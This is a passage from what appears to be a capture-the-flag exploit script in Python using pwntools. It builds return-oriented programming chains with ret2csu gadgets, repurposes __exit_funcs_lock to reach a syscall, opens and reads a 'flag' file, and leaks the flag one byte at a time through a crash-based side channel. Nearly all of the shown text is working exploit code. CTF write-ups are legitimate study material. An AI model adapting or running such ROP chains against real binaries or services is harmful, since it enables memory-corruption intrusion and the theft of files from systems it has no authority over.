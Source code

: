 ```python
				payload += p64(0)+p64(0x6013f8)+p64(0)*4+p64(leave_tet)
				payload = payload.ljust(0x100,'\x00')
				p.send(payload)
				sleep(0.3)
				payload = "\x00"*(0x100-0x50)
				payload += p64(p_rdi)+p64(readn)+p64(call_libc_start_main)
				payload = payload.ljust(0x400,'\x00')
				p.send(payload)
				sleep(0.3)
				# 0x601318
				payload = p64(pppppp_ret)+p64((0x100000000-offset)&0xffffffff)
				payload += p64(0x601318+0x3D)+p64(0)*4+p64(0x4005E8)
				# 0x00000000000d2975: syscall; ret;
				# 02:0010|            0x601310 -> 0x7f61d00d8628 (__exit_funcs_lock) <- 0x0
				offset = 0x31dcb3 # __exit_funcs_lock - syscall
				payload += p64(pppppp_ret)+p64((0x100000000-offset)&0xffffffff)
				payload += p64(0x601310+0x3D)+p64(0)*4+p64(0x4005E8)
				payload += p64(pppppp_ret)+ret_csu(read_got,0,0x601800,2)
				payload += p64(0)*6
				payload += p64(pppppp_ret)+ret_csu(0x601310,0x601350+0x3f8,0,0)	#open flag
				payload += p64(0)*6
				payload += p64(pppppp_ret)+ret_csu(read_got,3,0x601800,0x100)	#read flag
				payload += p64(0)*6
				payload += p64(pppppp_ret)+ret_csu(read_got,0,0x601ff8,8)
				# now we can cmp the flag one_by_one
				payload += p64(0)*6	
				payload += p64(pppppp_ret)+ret_csu(0x601318,0x601800+i,0x601fff,2)
				payload += p64(0)*6
				for _ in range(4):
					payload += p64(p_rdi)+p64(0x601700)+p64(p_rsi_r15)+p64(0x100)+p64(0)+p64(readn)
					
				payload = payload.ljust(0x3f8,'\x00')
				payload += "flag\x00\x00\x00\x00"
				p.send(payload)
				sleep(0.3)
				p.send("dd"+"d"*7+j)
				sleep(0.5)
				p.recv(timeout=0.5)
				p.send("A"*0x100)
				# info(j)
				p.close()
				# p.interactive()
			except EOFError:
				flag += j
				info(flag)
				if(j == '}'):
					exit()
				p.close()
				# pause()
				break
if __name__ == "__main__":
	# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
	main(args["REMOTE"])

```
